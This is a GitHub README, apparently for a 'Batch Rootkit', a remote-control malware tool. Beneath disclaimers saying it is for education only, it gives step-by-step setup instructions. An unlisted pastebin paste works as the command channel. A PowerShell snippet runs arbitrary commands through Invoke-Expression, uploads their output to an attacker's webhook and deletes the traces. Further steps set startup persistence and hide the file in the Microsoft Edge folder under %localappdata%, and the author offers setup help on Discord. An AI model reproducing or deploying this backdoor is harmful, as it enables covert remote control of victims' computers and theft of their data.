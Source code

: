 # Batch Rootkit

> __Warning__ 
> **I hereby declare that I am not liable for any damages caused by the program. If you experience any problems with my code, feel free to reach out to me on Discord.**

> __Warning__ 
> **The distribution of this computer virus onto computers other than one's own is a criminal offense, and such action is strictly prohibited.**

> __Warning__ 
> **ITS EDUCATION PURPOSES ONLY**


## Contact
In case you require any assistance with my project, please do not hesitate to contact me on Discord.
**Code613 on discord**

## About project
Batch rootkit is using pastebin paste to control computer. You can use all powershell and cmd commends.

##How to use
1. Create account on Create paste on https://pastebin.com/
2. Create paste on https://pastebin.com/
3. Make paste to unlisted
4. Change your webhook url and commend that you want to use
```PowerShell
$webhookUrl = "Your webhook url"
$outputFile = "output.txt"
$command = "Commend you want to use"
Invoke-Expression "$command | Out-File -FilePath $outputFile"
#tasklist | Out-File -FilePath $outputFile
$client = New-Object System.Net.WebClient
$client.UploadFile($webhookUrl, $outputFile)
Remove-Item $outputFile
 ```
5. To use cmd commend use ```cmd /c```  to use powershell commend just use your commend without ```cmd /c```
6. Save your paste
7. Press raw button
8. Copy link
9. Paste this link into batch code
10. Change name of rootkit.bat to anything you want
11. Done
12. Now application will run on startup and will be stored in %localappdata%/Microsoft Edge
13. I made this code difficult to edit so if you need help i can show you how to setup this **VIRUS** for **EDUCATION PURPOSES ONLY** so feel free to contact me on my discord.

